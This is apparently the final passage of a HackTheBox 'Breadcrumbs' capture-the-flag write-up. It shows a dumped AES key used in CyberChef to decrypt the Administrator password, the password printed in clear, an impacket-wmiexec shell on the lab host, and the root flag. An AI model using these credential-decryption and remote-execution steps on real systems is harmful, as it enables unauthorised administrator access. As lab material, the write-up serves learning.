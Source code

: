 Last but not least, we use [CyberChef](https://gchq.github.io/CyberChef/) to decrypt our aes encrypted password using the key we dumped and providing one byte characters until it becomes able to proceed the cryptologic operation.

![](src/cyberchef.png)

And we got the Administrator password:

```
p@ssw0rd!@#$9890./
```

Finally...

```powershell
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> impacket-wmiexec Administrator@10.10.10.228
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
breadcrumbs\administrator

C:\>type \Users\Administrator\Desktop\root.txt
4d7eb5348ab499218d992ec76716d28a

C:\>
```
